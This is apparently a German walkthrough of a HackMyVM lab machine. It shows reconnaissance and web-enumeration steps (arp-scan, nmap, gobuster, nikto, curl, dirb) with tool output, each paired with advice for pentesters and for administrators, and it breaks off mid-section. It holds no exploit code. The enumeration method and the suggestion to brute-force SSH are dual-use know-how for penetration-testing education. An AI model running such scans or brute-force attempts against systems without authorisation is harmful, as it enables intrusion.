

Verwendete Tools
Inhaltsverzeichnis
Reconnaissance
Die Reconnaissance-Phase ist der erste und einer der wichtigsten Schritte in einem Penetrationstest. Ziel ist es, so viele Informationen wie möglich über das Zielsystem zu sammeln. Dazu gehören IP-Adressen, offene Ports, laufende Dienste und möglicherweise Hostnamen. Diese Informationen bilden die Grundlage für alle weiteren Angriffsvektoren.
192.168.2.202
**Analyse:** Der Befehl `arp-scan -l` sendet ARP-Requests (Address Resolution Protocol) an alle Geräte im lokalen Netzwerk, um deren IP- und MAC-Adressen zu ermitteln. Die Option `-l` steht für `--localnet`, was bedeutet, dass die ARP-Pakete an das direkt verbundene Netzwerk gesendet werden. Das Ergebnis wird dann durch `grep "PCS"` gefiltert. "PCS Systemtechnik GmbH" ist ein häufiger Hersteller von VirtualBox Netzwerkkarten-Adaptern. Dies deutet darauf hin, dass es sich bei dem Ziel möglicherweise um eine virtuelle Maschine handelt. Schließlich extrahiert `awk '{print $1}'` die erste Spalte der gefilterten Ausgabe, welche die IP-Adresse des gefundenen Geräts ist. In diesem Fall wurde die IP-Adresse `192.168.2.202` identifiziert.
**Bewertung:** Dieser Schritt war erfolgreich und hat uns die IP-Adresse des potenziellen Ziels geliefert. Die Identifizierung als "PCS" (VirtualBox) ist ein nützlicher Hinweis auf die Natur des Ziels, was bei späteren Schritten, z.B. bei der Auswahl von Exploits, relevant sein könnte. Die Methode ist effizient für die Entdeckung von Hosts im lokalen Netzwerk.
**Empfehlung (Pentester):**
Die IP-Adresse `192.168.2.202` sollte nun als primäres Ziel für weitere Scans und Enumerationsschritte verwendet werden. Es ist ratsam, diese IP auch in die `/etc/hosts`-Datei einzutragen, falls ein Hostname bekannt wird, um die Lesbarkeit von Befehlen und Berichten zu verbessern.
**Empfehlung (Admin):**
Aus Sicht der Verteidigung ist es schwierig, ARP-Scans im lokalen Netzwerk vollständig zu unterbinden, da ARP für die grundlegende Netzwerkfunktionalität notwendig ist. Netzwerk-Monitoring-Systeme (IDS/IPS) können jedoch so konfiguriert werden, dass sie auf eine ungewöhnlich hohe Anzahl von ARP-Anfragen von einer einzelnen Quelle aufmerksam machen, was auf einen Scan hindeuten könnte. Segmentierung des Netzwerks kann die Reichweite solcher Scans begrenzen.
192.168.2.202 shemhamphorash.hmv
**Analyse:** Der Befehl `vi /etc/hosts` öffnet die lokale Host-Datei mit dem Texteditor `vi`. In dieser Datei können manuell Zuordnungen von IP-Adressen zu Hostnamen definiert werden. Der Eintrag `192.168.2.202 shemhamphorash.hmv` wurde hinzugefügt. Dies bedeutet, dass mein System nun den Hostnamen `shemhamphorash.hmv` direkt zur IP-Adresse `192.168.2.202` auflösen wird, ohne einen DNS-Server konsultieren zu müssen. Der Hostname `shemhamphorash.hmv` ist wahrscheinlich der Name der Challenge oder VM.
**Bewertung:** Das Hinzufügen des Hosts zur `/etc/hosts`-Datei ist eine bewährte Praxis während Penetrationstests. Es vereinfacht die Adressierung des Ziels in nachfolgenden Befehlen und Skripten, da man den (oft leichter zu merkenden) Hostnamen anstelle der IP-Adresse verwenden kann. Dies ist besonders nützlich, wenn Webanwendungen auf dem Ziel laufen, die auf spezifische Host-Header reagieren.
**Empfehlung (Pentester):**
Immer wenn eine IP-Adresse einem bestimmten Hostnamen zugeordnet werden kann (sei es durch Entdeckung oder Vorgabe), sollte dieser Eintrag in `/etc/hosts` vorgenommen werden. Dies erhöht die Effizienz und Übersichtlichkeit.
**Empfehlung (Admin):**
Dieser Schritt hat keine direkten Auswirkungen auf die Sicherheit des Zielsystems. Es handelt sich um eine lokale Konfigurationsänderung auf dem Angreifer-System.
Starting Nmap 7.95 ( https://nmap.org ) at 2025-05-26 22:24 CEST Nmap scan report for shemhamphorash.hmv (192.168.2.202) Host is up (0.00023s latency). Not shown: 65532 closed tcp ports (reset) PORT STATE SERVICE VERSION 80/tcp open http Apache httpd 2.4.53 ((Debian)) |_http-server-header: Apache/2.4.53 (Debian) |_http-title: Apache2 Debian Default Page: It works 8080/tcp open http nginx 1.18.0 |_http-title: Welcome to nginx! |_http-server-header: nginx/1.18.0 |_http-open-proxy: Proxy might be redirecting requests 22222/tcp open ssh OpenSSH 8.4p1 Debian 5 (protocol 2.0) | ssh-hostkey: | 3072 1a:87:91:eb:c7:12:2a:6d:46:8e:61:d0:20:68:eb:e4 (RSA) | 256 c6:3f:71:a5:8d:79:18:f3:e7:c8:25:98:ae:58:0e:af (ECDSA) |_ 256 9b:1c:60:11:9f:dd:62:f9:54:e3:36:3b:9d:3e:3b:03 (ED25519) MAC Address: 08:00:27:78:9D:97 (PCS Systemtechnik/Oracle VirtualBox virtual NIC) Device type: general purpose|router Running: Linux 5.X, MikroTik RouterOS 7.X OS CPE: cpe:/o:linux:linux_kernel:5 cpe:/o:mikrotik:routeros:7 cpe:/o:linux:linux_kernel:5.6.3 OS details: Linux 5.0 - 5.14, MikroTik RouterOS 7.2 - 7.5 (Linux 5.6.3) Network Distance: 1 hop Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel TRACEROUTE HOP RTT ADDRESS 1 0.23 ms shemhamphorash.hmv (192.168.2.202) OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ . Nmap done: 1 IP address (1 host up) scanned in 12.83 seconds
**Analyse:** Hier führe ich einen umfassenden Nmap-Scan gegen das Ziel `192.168.2.202` (jetzt auch bekannt als `shemhamphorash.hmv`) durch. Die verwendeten Optionen sind: * `-sS`: Führt einen TCP SYN-Scan (auch "Half-Open-Scan" genannt) durch. Dieser Scan-Typ ist relativ unauffällig und schnell, da keine vollständige TCP-Verbindung aufgebaut wird. * `-sC`: Führt die Standard-Nmap-Skripte (NSE - Nmap Scripting Engine) gegen die gefundenen Ports aus. Diese Skripte können zusätzliche Informationen über Dienste sammeln oder bekannte Schwachstellen aufdecken. * `-sV`: Versucht, die Versionen der laufenden Dienste zu ermitteln. * `-p-`: Scannt alle 65535 TCP-Ports. * `-T5`: Setzt das Timing-Template auf "insane". Dies beschleunigt den Scan erheblich, kann aber auf instabilen Netzwerken oder bei sehr sensiblen Systemen zu ungenauen Ergebnissen führen oder Intrusion Detection Systeme (IDS) auslösen. Für eine VM im lokalen Netz ist dies oft unproblematisch. * `-AO`: Hier war wahrscheinlich `-O` für die Betriebssystemerkennung gemeint, oder `-A` für einen aggressiveren Scan, der OS-Erkennung, Versionserkennung, Skript-Scanning und Traceroute beinhaltet. Die Ausgabe zeigt Merkmale, die zu `-A` oder einer Kombination aus `-O`, `-sV` und `-sC` passen. Die Ergebnisse des Scans sind sehr aufschlussreich: * **Port 80 (HTTP):** Offen, betrieben von einem Apache httpd 2.4.53 (Debian). Der Titel der Seite ist "Apache2 Debian Default Page: It works", was auf eine Standardinstallation oder eine noch nicht vollständig konfigurierte Webseite hindeutet. * **Port 8080 (HTTP):** Offen, betrieben von einem nginx 1.18.0. Der Titel ist "Welcome to nginx!". Interessant ist der Hinweis `_http-open-proxy: Proxy might be redirecting requests`, was auf eine mögliche Proxy-Funktionalität oder eine Fehlkonfiguration hindeuten könnte. * **Port 22222 (SSH):** Offen, betrieben von OpenSSH 8.4p1 Debian 5. Dies ist ein nicht-standardmäßiger Port für SSH (normalerweise Port 22). * **MAC-Adresse:** Bestätigt die vorherige Vermutung, dass es sich um eine VirtualBox VM handelt. * **Betriebssystem-Erkennung:** Nmap schätzt das Betriebssystem auf Linux (Kernel 5.X) und erwähnt auch MikroTik RouterOS. Die CPE (Common Platform Enumeration) Einträge präzisieren dies. Die Angabe von MikroTik RouterOS könnte ein Hinweis auf eine komplexe virtuelle Netzwerkkonfiguration sein oder eine Eigenart der Nmap-Fingerprinting-Datenbank bei dieser spezifischen VM. * **Traceroute:** Zeigt nur einen Hop, was erwartungsgemäß ist für ein Ziel im selben lokalen Netzwerk.
**Bewertung:** Dieser Nmap-Scan war äußerst erfolgreich und liefert eine Fülle von Informationen. Wir haben drei offene Ports mit ihren Diensten und Versionen identifiziert, was uns mehrere potenzielle Angriffsvektoren eröffnet: Webanwendungen auf Port 80 und 8080 sowie SSH auf Port 22222. Die Versionsinformationen sind entscheidend für die Suche nach bekannten Schwachstellen. Die Diskrepanz oder Vielfalt bei der OS-Erkennung (Linux, MikroTik) ist ein Punkt, den man im Hinterkopf behalten sollte, auch wenn Linux als Basis wahrscheinlich ist. Die Verwendung von `-T5` war in diesem lokalen Szenario angemessen und hat den Scan beschleunigt.
**Empfehlung (Pentester):**
1. **Web Enumeration:** Die Webserver auf Port 80 und 8080 müssen nun detailliert untersucht werden (Verzeichnissuche, Schwachstellen-Scans speziell für Webanwendungen, manuelle Untersuchung).
2. **SSH:** Der SSH-Dienst auf Port 22222 sollte auf mögliche schwache Anmeldeinformationen (Brute-Force, Default-Credentials) oder bekannte Schwachstellen in der OpenSSH-Version 8.4p1 geprüft werden (obwohl diese Version relativ modern ist).
3. **Hostname-Nutzung:** Den Hostnamen `shemhamphorash.hmv` konsequent für weitere Tests verwenden.
4. **HTTP-Open-Proxy auf 8080:** Untersuchen, ob dieser Port tatsächlich als offener Proxy missbraucht werden kann.
**Empfehlung (Admin):**
1. **Dienste prüfen:** Überprüfen, ob alle laufenden Dienste (Apache, nginx, SSH) und deren offene Ports tatsächlich benötigt werden. Nicht benötigte Dienste sollten deaktiviert werden, um die Angriffsfläche zu reduzieren.
2. **Software-Updates:** Sicherstellen, dass alle Dienste auf dem neuesten Stand sind. Apache 2.4.53 ist nicht die aktuellste Version. Auch für nginx und OpenSSH sollten regelmäßig Updates geprüft und eingespielt werden.
3. **SSH-Port:** Die Verwendung eines nicht-standardmäßigen Ports für SSH (22222 statt 22) kann zwar automatisierte Scans auf Port 22 ins Leere laufen lassen (Security through Obscurity), bietet aber keinen echten Schutz gegen gezielte Angreifer, wie dieser Nmap-Scan zeigt. Wichtiger sind starke Passwörter, Schlüsselbasierte Authentifizierung und ggf. Fail2Ban.
4. **Webserver-Konfiguration:** Die Apache-Standardseite auf Port 80 sollte durch die eigentliche Anwendung ersetzt oder der Zugriff darauf beschränkt werden. Die nginx-Konfiguration auf Port 8080 bezüglich der Proxy-Meldung sollte überprüft werden.
5. **Firewall:** Eine Host-basierte Firewall sollte so konfiguriert sein, dass nur notwendige Ports von außen erreichbar sind.
80/tcp open http Apache httpd 2.4.53 ((Debian)) 8080/tcp open http nginx 1.18.0 |_http-open-proxy: Proxy might be redirecting requests 22222/tcp open ssh OpenSSH 8.4p1 Debian 5 (protocol 2.0)
**Analyse:** Dieser Befehl wiederholt im Wesentlichen den vorherigen Nmap-Scan, filtert die Ausgabe aber direkt mit `grep open`. Das Ziel ist es, eine kompakte Liste der offenen Ports zu erhalten. Die Nmap-Optionen sind identisch zum vorherigen Scan.
**Bewertung:** Das Ergebnis bestätigt die zuvor gefundenen offenen Ports: 80 (Apache), 8080 (nginx) und 22222 (OpenSSH). Diese Methode ist nützlich, um schnell einen Überblick über die offenen Ports zu bekommen, ohne die gesamte detaillierte Ausgabe von Nmap durchsehen zu müssen. Es ist eine effiziente Art, die wichtigsten Ergebnisse zu extrahieren. Es ist jedoch wichtig zu beachten, dass durch das `grep` potenziell wichtige Kontextinformationen oder Details zu geschlossenen/gefilterten Ports verloren gehen könnten, die in der vollständigen Ausgabe vorhanden wären. Für eine schnelle Übersicht ist es aber legitim.
**Empfehlung (Pentester):**
Diese gefilterte Ansicht ist gut für eine schnelle Zusammenfassung. Für die detaillierte Analyse sollte man sich jedoch immer die vollständige Nmap-Ausgabe ansehen, da dort mehr Kontext und Details (z.B. über Skript-Ergebnisse, OS-Fingerprinting) enthalten sind.
**Empfehlung (Admin):**
Die Empfehlungen bleiben dieselben wie beim vorherigen, ausführlichen Nmap-Scan. Diese gefilterte Ansicht unterstreicht lediglich die primären Angriffspunkte.
Web Enumeration
Nachdem wir in der Reconnaissance-Phase offene HTTP-Ports (80 und 8080) identifiziert haben, konzentrieren wir uns in der Web Enumeration darauf, die Struktur und potenzielle Schwachstellen dieser Webdienste genauer zu untersuchen. Dazu gehört das Auffinden von Verzeichnissen, Dateien, Subdomains und das Testen auf gängige Web-Schwachstellen.
=============================================================== Gobuster v3.6 by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart) =============================================================== [+] Url: http://shemhamphorash.hmv [+] Method: GET [+] Threads: 10 [+] Wordlist: /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt [+] Negative Status codes: 503,404,403 [+] User Agent: gobuster/3.6 [+] Extensions: php,lib,icon,js.map,sh,bak,jpg,rtf,json,conf,exp,pHtml,txt,docx,db,zip,pub,doc,asp,java,xls,sql,crt,config,diff,rar,tar,dll,kdbx,ps1,csv,svg,csh,desc,bat,phtml,ELF,elf,deb,pl,png,pem,cgi,ln,rpm,pdf,old,jpeg,c,mdb,exe,py,xml,raw,gz,html,eps,mod,aspx,accdb,xlsx [+] Expanded: true [+] Timeout: 10s =============================================================== Starting gobuster in directory enumeration mode =============================================================== http://shemhamphorash.hmv/index.html (Status: 200) [Size: 10701] http://shemhamphorash.hmv/manual (Status: 301) [Size: 325] [--> http://shemhamphorash.hmv/manual/] http://shemhamphorash.hmv/javascript (Status: 301) [Size: 329] [--> http://shemhamphorash.hmv/javascript/]
**Analyse:** Der Befehl `gobuster` wird hier im Modus `dir` (Verzeichnissuche) verwendet, um versteckte Verzeichnisse und Dateien auf dem Webserver unter `http://shemhamphorash.hmv` (Port 80, der Apache-Server) zu finden. * `-u "http://shemhamphorash.hmv"`: Gibt die Ziel-URL an. * `-w "/usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt"`: Verwendet eine gängige Wortliste von SecLists, um potenzielle Verzeichnis- und Dateinamen zu testen. Die "medium"-Liste ist ein guter Kompromiss zwischen Gründlichkeit und Scan-Dauer. * `-x txt,php,...pHtml`: Eine sehr umfangreiche Liste von Dateierweiterungen, die Gobuster zusätzlich zu den Wörtern in der Wortliste testen soll. Jedes Wort aus der Wortliste wird mit jeder dieser Erweiterungen kombiniert und angefragt. * `-b '503,404,403'`: Definiert HTTP-Statuscodes, die als "nicht gefunden" oder "Zugriff verweigert" interpretiert und daher nicht in der Hauptausgabe angezeigt werden sollen. Dies hilft, die Ergebnisse übersichtlich zu halten. * `-e`: "Expanded Mode", zeigt die volle URL für gefundene Ressourcen an. * `--no-error`: Unterdrückt Fehlermeldungen, die während des Scans auftreten könnten (z.B. bei Verbindungsproblemen). * `-k`: Überspringt die SSL-Zertifikatsverifizierung (für HTTPS, hier aber HTTP, daher weniger relevant, aber oft standardmäßig dabei). Die Ergebnisse zeigen drei interessante Pfade: * `/index.html`: Die Standard-Startseite, die bereits durch den Nmap-Scan (`Apache2 Debian Default Page`) bekannt war. Status 200 (OK). * `/manual`: Gibt einen Status 301 (Moved Permanently) zurück und leitet auf `/manual/` weiter. Dies ist typisch für Verzeichnisse, bei denen der Webserver automatisch einen Schrägstrich am Ende hinzufügt. * `/javascript`: Gibt ebenfalls einen Status 301 zurück und leitet auf `/javascript/` weiter.
**Bewertung:** Gobuster hat erfolgreich einige Pfade auf dem Webserver auf Port 80 aufgedeckt. Besonders `/manual/` ist interessant, da dies oft auf das Apache-Handbuch hindeutet, welches manchmal sensible Informationen über die Serverkonfiguration enthalten oder selbst Schwachstellen aufweisen kann. `/javascript/` könnte benutzerdefinierte JavaScript-Dateien enthalten, die analysiert werden sollten. Die umfangreiche Liste an Erweiterungen (`-x`) ist gut für eine gründliche Suche, kann aber die Scandauer erheblich verlängern. Die Verwendung von `-b` ist wichtig, um die Ausgabe sauber zu halten.
**Empfehlung (Pentester):**
1. **Untersuche `/manual/`:** Greife manuell auf `http://shemhamphorash.hmv/manual/` zu und prüfe den Inhalt. Suche nach Konfigurationsdetails oder bekannten Schwachstellen im Zusammenhang mit dem Apache-Handbuch.
2. **Untersuche `/javascript/`:** Prüfe den Inhalt dieses Verzeichnisses auf interessante JavaScript-Dateien. Analysiere diese Dateien auf Endpunkte, Logikfehler oder hartkodierte Anmeldeinformationen.
3. **Weitere Scans:** Führe Gobuster (oder ein ähnliches Tool wie Feroxbuster, ffuf) auch rekursiv für die gefundenen Verzeichnisse aus, um tieferliegende Pfade zu entdecken.
4. **Port 8080:** Wiederhole einen ähnlichen Verzeichnis-Scan für den Nginx-Server auf Port 8080.
**Empfehlung (Admin):**
1. **Apache-Handbuch (`/manual/`):** Wenn das Apache-Handbuch nicht öffentlich zugänglich sein muss (was in Produktionsumgebungen meist der Fall ist), sollte der Zugriff darauf deaktiviert oder stark eingeschränkt werden (z.B. auf interne IP-Adressen).
2. **Verzeichnisauflistung (`Directory Indexing`):** Wenn Gobuster später Verzeichnisse findet, die ihren Inhalt auflisten (Directory Indexing), sollte dies deaktiviert werden, es sei denn, es ist explizit erwünscht.
3. **Unnötige Dateien/Verzeichnisse:** Entferne alle nicht benötigten Dateien und Verzeichnisse vom Webserver, um die Angriffsfläche zu minimieren.
4. **Web Application Firewall (WAF):** Eine WAF kann helfen, automatisierte Scans wie die von Gobuster zu erkennen und zu blockieren, basierend auf Mustern oder der Häufigkeit von Anfragen.
- Nikto v2.5.0 --------------------------------------------------------------------------- + Target IP: 192.168.2.202 + Target Hostname: shemhamphorash.hmv + Target Port: 80 + Start Time: 2025-05-26 22:25:18 (GMT2) --------------------------------------------------------------------------- + Server: Apache/2.4.53 (Debian) + /: The anti-clickjacking X-Frame-Options header is not present. See: [Link: developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Frame-Options | Ziel: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Frame-Options] + /: The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type. See: [Link: www.netsparker.com/web-vulnerability-scanner/vulnerabilities/missing-content-type-header/ | Ziel: https://www.netsparker.com/web-vulnerability-scanner/vulnerabilities/missing-content-type-header/] + /: Server may leak inodes via ETags, header found with file /, inode: 29cd, size: 5dc0ccc9bd7ca, mtime: gzip. See: [Link: cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2003-1418 | Ziel: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2003-1418] + Apache/2.4.53 appears to be outdated (current is at least Apache/2.4.54). Apache 2.2.34 is the EOL for the 2.x branch. + OPTIONS: Allowed HTTP Methods: POST, OPTIONS, HEAD, GET . + /manual/: Web server manual found. + /manual/images/: Directory indexing found. + 26500 requests: 0 error(s) and 7 item(s) reported on remote host + End Time: 2025-05-26 22:25:48 (GMT2) (30 seconds) --------------------------------------------------------------------------- + 1 host(s) tested
**Analyse:** Nikto ist ein Webserver-Scanner, der auf bekannte Schwachstellen, Fehlkonfigurationen, Standarddateien und -verzeichnisse sowie veraltete Softwareversionen prüft. * `-h http://shemhamphorash.hmv`: Gibt das Ziel an. * `-C all`: Führt alle verfügbaren CGI-Verzeichnistests durch, was den Scan gründlicher, aber auch "lauter" macht. Die Ergebnisse von Nikto für den Apache-Server auf Port 80 sind: * **Fehlende Sicherheitsheader:** * `X-Frame-Options`: Dieser Header wird verwendet, um Clickjacking-Angriffe zu verhindern, bei denen eine Webseite in einem Frame einer bösartigen Seite eingebettet wird. Sein Fehlen ist eine Schwachstelle. * `X-Content-Type-Options`: Dieser Header (typischerweise mit dem Wert `nosniff`) verhindert, dass der Browser versucht, den MIME-Typ einer Ressource zu "erraten", was bei falscher Interpretation zu Sicherheitsproblemen (z.B. Ausführung von Skripten in vermeintlich harmlosen Dateien) führen kann. * **ETag Inode Leak (CVE-2003-1418):** Der ETag-Header, der vom Server gesendet wird, scheint Informationen über die Inode-Nummer der Datei auf dem Server zu enthalten. Dies ist eine alte Schwachstelle, die es einem Angreifer unter Umständen ermöglichen kann, Informationen über die Dateisystemstruktur zu sammeln. * **Veraltete Apache-Version:** Nikto meldet, dass Apache/2.4.53 veraltet ist und die aktuelle Version mindestens 2.4.54 wäre. Veraltete Software ist oft anfällig für bekannte Exploits. * **Erlaubte HTTP-Methoden:** Listet die vom Server unterstützten HTTP-Methoden auf. `OPTIONS` ist hier nützlich für Angreifer, um dies herauszufinden. * **Apache-Handbuch (`/manual/`):** Bestätigt den Fund von Gobuster. * **Directory Indexing (`/manual/images/`):** Das Verzeichnis `/manual/images/` erlaubt die Auflistung seines Inhalts. Dies kann sensible Informationen preisgeben oder Angreifern helfen, die Struktur der Anwendung besser zu verstehen.
**Bewertung:** Nikto hat mehrere wichtige Informationen und potenzielle Schwachstellen aufgedeckt. Die fehlenden Sicherheitsheader sind gängige, aber wichtige Findings, die behoben werden sollten. Der ETag Inode Leak ist zwar alt, sollte aber dennoch adressiert werden. Die veraltete Apache-Version ist ein klares Risiko. Die Bestätigung des Apache-Handbuchs und das gefundene Directory Indexing sind ebenfalls wertvolle Erkenntnisse. Nikto ist ein sehr nützliches Werkzeug für eine erste automatisierte Bewertung eines Webservers.
**Empfehlung (Pentester):**
1. **Fehlende Header:** Notiere diese als Schwachstellen im Bericht. Sie sind oft leicht auszunutzen oder tragen zur Ausnutzung anderer Schwachstellen bei (z.B. XSS durch fehlenden `X-Content-Type-Options`).
2. **Veralteter Apache:** Recherchiere nach bekannten Exploits für Apache 2.4.53.
3. **Directory Indexing:** Untersuche das Verzeichnis `/manual/images/` manuell.
4. **ETag:** Auch wenn es eine ältere Schwachstelle ist, prüfe, ob die geleakten Informationen in irgendeiner Weise nützlich sein könnten.
**Empfehlung (Admin):**
1. **Sicherheitsheader implementieren:**
* `X-Frame-Options: DENY` oder `SAMEORIGIN` in der Apache-Konfiguration hinzufügen.
* `X-Content-Type-Options: nosniff` in der Apache-Konfiguration hinzufügen.
2. **ETag-Konfiguration:** Die Apache-Konfiguration so anpassen, dass keine Inode-Informationen in ETags preisgegeben werden (z.B. `FileETag MTime Size` anstelle von `FileETag INode MTime Size`).
3. **Apache aktualisieren:** Den Apache-Webserver dringend auf die neueste stabile Version aktualisieren, um bekannte Schwachstellen zu schließen.
4. **Directory Indexing deaktivieren:** In der Apache-Konfiguration die Auflistung von Verzeichnisinhalten global oder für spezifische Verzeichnisse deaktivieren (z.B. durch `Options -Indexes`).
5. **HTTP-Methoden einschränken:** Wenn Methoden wie `POST` nicht für alle Ressourcen benötigt werden, deren Verwendung einschränken. Die `OPTIONS`-Methode wird oft für legitime Zwecke benötigt, kann aber in manchen Szenarien für Angreifer informativ sein.
* Host shemhamphorash.hmv:80 was resolved. * IPv6: (none) * IPv4: 192.168.2.202 * Trying 192.168.2.202:80... * Connected to shemhamphorash.hmv (192.168.2.202) port 80 * using HTTP/1.x > HEAD / HTTP/1.1 > Host: shemhamphorash.hmv > User-Agent: curl/8.13.0 > Accept: */* > * Request completely sent off < HTTP/1.1 200 OK HTTP/1.1 200 OK < Date: Mon, 26 May 2025 20:26:28 GMT Date: Mon, 26 May 2025 20:26:28 GMT < Server: Apache/2.4.53 (Debian) Server: Apache/2.4.53 (Debian) < Last-Modified: Thu, 07 Apr 2022 09:06:54 GMT Last-Modified: Thu, 07 Apr 2022 09:06:54 GMT < ETag: "29cd-5dc0ccc9bd7ca" ETag: "29cd-5dc0ccc9bd7ca" < Accept-Ranges: bytes Accept-Ranges: bytes < Content-Length: 10701 Content-Length: 10701 < Vary: Accept-Encoding Vary: Accept-Encoding < Content-Type: text/html Content-Type: text/html < * Connection #0 to host shemhamphorash.hmv left intact
**Analyse:** Der Befehl `curl http://shemhamphorash.hmv -Iv` wird verwendet, um die HTTP-Header der Antwort von der Hauptseite (`/`) des Webservers auf Port 80 abzurufen. * `-I`: Sendet eine HEAD-Anfrage anstatt einer GET-Anfrage. Dies bedeutet, dass nur die Header und nicht der eigentliche Seiteninhalt (Body) abgerufen werden, was schneller ist. * `-v`: "Verbose Mode", zeigt detaillierte Informationen über die Verbindung und die übertragenen Header an, sowohl für die Anfrage als auch für die Antwort. Die Ausgabe bestätigt: * Die erfolgreiche Verbindung zur IP `192.168.2.202` auf Port 80. * Die gesendeten Request-Header (Host, User-Agent, Accept). * Die empfangenen Response-Header: * `HTTP/1.1 200 OK`: Die Anfrage war erfolgreich. * `Server: Apache/2.4.53 (Debian)`: Bestätigt die Apache-Version. * `ETag: "29cd-5dc0ccc9bd7ca"`: Zeigt den ETag-Wert, der von Nikto als potenziell Inodes leckend identifiziert wurde. Der Wert "29cd" könnte der Inode-Teil sein. * `Content-Type: text/html`: Der Inhaltstyp ist HTML. Die doppelten Header-Zeilen in der Ausgabe (z.B. `HTTP/1.1 200 OK` zweimal) sind eine Eigenart der `-v` Option von `curl` in Kombination mit der Art, wie der Server antwortet oder wie `curl` die Ausgabe formatiert; die relevanten Informationen sind dennoch klar ersichtlich.
**Bewertung:** `curl` bestätigt hier die von Nmap und Nikto gesammelten Informationen, insbesondere die Server-Version und den ETag-Header. Die Verwendung von `curl` ist eine gute manuelle Methode, um schnell Header zu überprüfen oder spezifische Anfragen zu senden. Es ist weniger automatisiert als Nikto, bietet aber mehr Kontrolle für gezielte Tests. Das direkte Sehen der Header kann helfen, die Ergebnisse anderer Tools zu verifizieren.
**Empfehlung (Pentester):**
`curl` ist ein unverzichtbares Werkzeug. Nutze es weiterhin, um spezifische Anfragen zu formulieren, Header zu inspizieren, mit Cookies zu arbeiten oder das Verhalten von Webanwendungen unter bestimmten Bedingungen zu testen. Die hier bestätigten Informationen fließen in die Gesamtbewertung der Webanwendung auf Port 80 ein.
**Empfehlung (Admin):**
Die Empfehlungen bezüglich Server-Version und ETag-Konfiguration (siehe Nikto-Analyse) bleiben bestehen. Dieser `curl`-Befehl zeigt lediglich, wie leicht diese Informationen von einem Angreifer abgerufen werden können.
----------------- DIRB v2.22 By The Dark Raver ----------------- START_TIME: Mon May 26 22:30:15 2025 URL_BASE: http://shemhamphorash.hmv:8080/ WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt ----------------- GENERATED WORDS: 4612 ---- Scanning URL: http://shemhamphorash.hmv:8080/ ---- + http://shemhamphorash.hmv:8080/admin.php (CODE:200|SIZE:0) + http://shemhamphorash.hmv:8080/index.php (CODE:200|SIZE:0) + http://shemhamphorash.hmv:8080/info.php (CODE:200|SIZE:0) + http://shemhamphorash.hmv:8080/phpinfo.php (CODE:200|SIZE:0) + http://shemhamphorash.hmv:8080/xmlrpc.php (CODE:200|SIZE:0) + http://shemhamphorash.hmv:8080/xmlrpc_server.php (CODE:200|SIZE:0) ----------------- END_TIME: Mon May 26 22:30:19 2025 DOWNLOADED: 4612 - FOUND: 6
**Analyse:** Hier wird `dirb` verwendet, ein weiteres Tool zur Verzeichnis- und Dateisuche, ähnlich wie Gobuster. Es zielt auf den Nginx-Server auf Port 8080 (`http://shemhamphorash.hmv:8080/`). * `dirb` verwendet standardmäßig die Wortliste `/usr/share/dirb/wordlists/common.txt`, die kleiner ist als die zuvor mit Gobuster verwendete "medium"-Liste von SecLists. * Es werden keine spezifischen Erweiterungen wie bei Gobuster (`-x`) oder Statuscodes zum Ignorieren (`-b`) angegeben, `dirb` arbeitet hier mit seinen Standardeinstellungen. Die Ergebnisse für Port 8080 sind: * `/admin.php` (Status 200, Größe 0) * `/index.php` (Status 200, Größe 0) * `/info.php` (Status 200, Größe 0) * `/phpinfo.php` (Status 200, Größe 0) * `/xmlrpc.php` (Status 200, Größe 0) * `/xmlrpc_server.php` (Status 200, Größe 0) Auffällig ist, dass alle gefundenen Dateien eine Größe von 0 haben, obwohl sie mit Status 200 (OK) antworten. Dies könnte auf verschiedene Dinge hindeuten: 1. Die Dateien existieren, sind aber tatsächlich leer. 2. Der Server gibt immer Status 200 zurück, auch wenn die Datei nicht existiert, und liefert einen leeren Body (eine Art Soft-404). 3. Es gibt eine serverseitige Logik, die den Inhalt basierend auf anderen Faktoren (z.B. Host-Header, User-Agent) dynamisch generiert oder unterdrückt.
**Bewertung:** `dirb` hat mehrere PHP-Dateien auf dem Nginx-Server gefunden. Die Tatsache, dass alle eine Größe von 0 haben, ist verdächtig und erfordert weitere Untersuchung. `/phpinfo.php` ist besonders kritisch, wenn es zugänglich ist, da es detaillierte Informationen über die PHP-Konfiguration und das Serversystem preisgibt. `/admin.php` deutet auf eine Administrationsschnittstelle hin. `/xmlrpc.php` ist oft mit WordPress oder anderen CMS verbunden und kann ein Angriffsvektor sein (z.B. für Brute-Force-Angriffe, DDoS-Amplification). Die Größe 0 bei Status 200 ist ein wichtiges Detail, das manuell verifiziert werden muss.
**Empfehlung (Pentester):**
